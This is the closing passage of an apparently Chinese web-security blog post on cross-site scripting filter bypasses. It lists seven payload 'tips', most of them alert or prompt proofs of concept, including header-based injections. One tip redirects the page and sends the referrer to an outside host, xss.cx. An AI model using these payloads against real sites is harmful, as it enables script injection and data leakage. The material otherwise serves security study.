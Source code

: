 剩下的大家自己动手研究。

### 0x04 一些分享

* * *

欢迎和我沟通或者写文章（升，升，升！）

来自国外的一些tip.（多关注国外技术blog 或者论坛）

```
Tip1: var url = "htpp://xss.cx/default.aspx?xss="+encodeURIComponent(document.referrer)"; if (window!=top) {top.location.href = url;} else document.location= url; 
Tip2: <script/src="data:text/javascript,o={window:'/XSS/'};prompt(o['window']);"></script> 
Tip3: <body/onload="@set @evil=1; @if(@evil)eval(confirm(@evil))@end;"> 
Tip4: "><script>alert(document.location)</script> (webkit) 
Tip5: "-prompt(document.location)-" (webkit) 
Tip6: Referer: http://www.google.com/search?hl=en&q=xss"><script>prompt(9)</script> (webkit) 
Tip7: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0)xss"><script>prompt(9)</script> (webkit)   短短研究过这个。

```

参考：

[http://blogs.technet.com/b/srd/archive/2008/08/19/ie-8-xss-filter-architecture-implementation.aspx](http://blogs.technet.com/b/srd/archive/2008/08/19/ie-8-xss-filter-architecture-implementation.aspx)[http://www.80sec.com](http://www.80sec.com/)